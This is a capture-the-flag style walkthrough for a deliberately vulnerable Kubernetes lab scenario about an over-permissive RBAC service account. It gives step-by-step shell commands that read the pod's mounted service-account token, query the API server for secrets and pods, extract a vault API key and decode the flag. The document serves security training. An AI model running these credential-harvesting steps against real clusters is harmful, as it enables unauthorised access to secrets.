 # RBAC Least Privileges Misconfiguration

## Scenario Information

We commonly see in real-world where developers and devops teams tend to provide extra privileges than required. This happens attackers gaining more control and privieges than they intended to be. In this scenario you can leverage the serviceaccount binded to the pod to provide `webhookapikey` access, but using this attacker can gain control over other secrets and resources. Gain access to the `vaultapikey` secret flag.

* To get started with the scenario, navigate to [http://127.0.0.1:1236](http://127.0.0.1:1236)

![Scenario 16 Welcome](images/sc-16-1.png)

## Scenario Solution

> This deployment has a custom serviceaccount mapped with overly permissive policy/access. As an attacker we can leverage this to gain access to other resources and services.

* As the Kubernetes stores all the secrets, tokens and service accounts information in the default place, navigate to there to find the useful information

```bash
cd /var/run/secrets/kubernetes.io/serviceaccount/
ls -larth
```

![Scenario 16 checking service account](images/sc-16-2.png)

* Now we can use this information to query and talk to the Kubernetes API service with the available permissions and privileges to the token

* To point to the internal API server hostname

```bash
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

* To set the path to ServiceAccount token

```bash
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

* To read the pods namespace and set that as a variable

```bash
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

* To read the ServiceAccount bearer token

```bash
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
````

* To point the CACERT path to use while querying in the CURL requests

```bash
export CACERT=${SERVICEACCOUNT}/ca.crt
```

* Now we can explore the Kubernetes API with the token and the constructed queries

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

![Scenario 16 mapping credentials](images/sc-16-3.png)

* To query the available secrets in defaul namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```

![Scenario 16 query secrets in default namespace](images/sc-16-4.png)

* To query the secrets specific to the namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```

![Scenario 16 query secrets in specific namespace](images/sc-16-5.png)

* To query the pods in the sepcific namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
```

![Scenario 16 query pods in specific namespace](images/sc-16-6.png)

> From here you can try and leverage all the possible Kubernetes operations. As Kubernetes itself works as API service to create, delete pods, etc.

* Get the `k8svaulapikey`

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```

![Scenario 16 get k8svaultapikey](images/sc-16-7.png)

```bash
echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```

## Miscellaneous

TBD
